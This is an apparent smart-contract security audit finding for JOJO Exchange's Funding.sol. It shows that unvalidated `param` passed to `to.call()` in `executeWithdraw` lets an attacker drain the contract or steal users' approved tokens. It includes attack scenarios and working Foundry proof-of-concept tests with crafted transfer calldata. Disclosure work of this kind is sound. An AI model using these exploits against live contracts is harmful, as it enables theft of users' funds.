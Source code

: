 Suave Mint Hare

high

# Lack of input validation for executeWithdraw leads to total loss of funds

## Summary
In Funding.sol, a lack of input validation in `executeWithdraw()`allows an attacker to pass in arbitrary data and either steal all funds in JojoDealer, or steal from other users using approved allowances. Very similar to recent Socket/Bungee exploit.

## Vulnerability Detail
```solidity
// Funding.sol
function executeWithdraw(
        Types.State storage state,
        address from,
        address to,
        bool isInternal,
        bytes memory param
    ) external {
		...
		_withdraw(state, msg.sender, from, to, primaryAmount, secondaryAmount, isInternal, param);
    }

function _withdraw(
        Types.State storage state,
        address spender,
        address from,
        address to,
        uint256 primaryAmount,
        uint256 secondaryAmount,
        bool isInternal,
        bytes memory param
    )   private {
		...
		
		//@audit param not validated
		(bool success,) = to.call(param);
    
    }
```

`executeWithdraw()` can be called by anyone who has a deposit with JOJODealer and has made a withdraw request. `param` can be passed to `executeWithdraw()` which is not validated, allowing an attacker to make a call to any contract. This can be abused by calling a token contract and steal all the balances of JOJODealer, and/or the balances of other users using their approved allowances to JOJODealer. 

Attack scenario 1 (steal from dealer):
1. JOJODealer contract has 1000 USDC balance
2. Bob deposits 1 USDC into JOJO Dealer
3. Bob calls `requestWithdraw` and waits for the timelock period to be over
4. Bob calls `executeWithdraw` passing in param as `abi.encodeWithSignature("transfer(address,uint256)", address(bob), 1000e6)`
5. Bob steals all USDC balance from JOJODealer

Attack scenario 2(steal from other users):
1. Alice and Bob approve USDC to JOJODealer for the maximum amount
2. Alice and Bob each deposit 100 USDC into JOJO Dealer. Alice has 900 USDC remaining in her account.
3. Bob calls `requestWithdraw` and waits for the timelock period to be over
4. Bob calls `executeWithdraw` passing in param as `abi.encodeWithSignature("transferFrom(address,address,uint256)", address(alice), address(bob), 900e6);`
5. Bob steals all of Alice's USDC 

Run this POC in `DealerFundTest.sol`
```solidity
    function testStealDealerBalance() public {
        jojoDealer.setWithdrawTimeLock(100);
        vm.startPrank(traders[0]);
        jojoDealer.deposit(1000e6, 1000e6, traders[0]);
        assertEq(usdc.balanceOf(address(jojoDealer)), 1000e6); // Contract has 1000 USDC

        vm.startPrank(traders[1]);
        jojoDealer.deposit(1e6, 1e6, traders[1]);  // Bob deposits 1 USDC
        assertEq(usdc.balanceOf(address(jojoDealer)), 1001e6);

        jojoDealer.requestWithdraw(traders[1], 1e6, 1e6); // Bob makes withdraw request

        skip(100);
        bytes memory param = abi.encodeWithSignature("transfer(address,uint256)", address(traders[1]), 1000e6);

        jojoDealer.executeWithdraw(traders[1], address(usdc), false, param);
        assertEq(usdc.balanceOf(address(jojoDealer)), 0); // Bob steals all USDC from contract
    }

    function testStealOtherUsersBalance() public {
        jojoDealer.setWithdrawTimeLock(100);
        vm.startPrank(traders[0]);
        jojoDealer.deposit(100_000e6, 100_000e6, traders[0]); // Alice deposits 100k USDC
        assertEq(usdc.balanceOf(address(traders[0])), 900_000e6); // Alice remaining balance 900k USDC

        vm.startPrank(traders[1]);
        jojoDealer.deposit(1e6, 1e6, traders[1]);
        assertEq(usdc.balanceOf(address(jojoDealer)), 100_001e6); // Bob deposits 1 USDC

        jojoDealer.requestWithdraw(traders[1], 1e6, 1e6); // Bob makes withdraw request

        skip(100);
        bytes memory param = abi.encodeWithSignature("transferFrom(address,address,uint256)", address(traders[0]), address(traders[1]), 900_000e6);

        jojoDealer.executeWithdraw(traders[1], address(usdc), false, param);
        assertEq(usdc.balanceOf(address(traders[0])), 0); // Alice USDC balance is 0
    }
```
## Impact
Total loss of funds from JOJODealer and all users who have given token approvals.

## Code Snippet
https://github.com/sherlock-audit/2023-12-jojo-exchange-update/blob/main/smart-contract-EVM/src/libraries/Funding.sol#L175

## Tool used
Manual Review

## Recommendation
Check and validate `param` and `to` before making the call.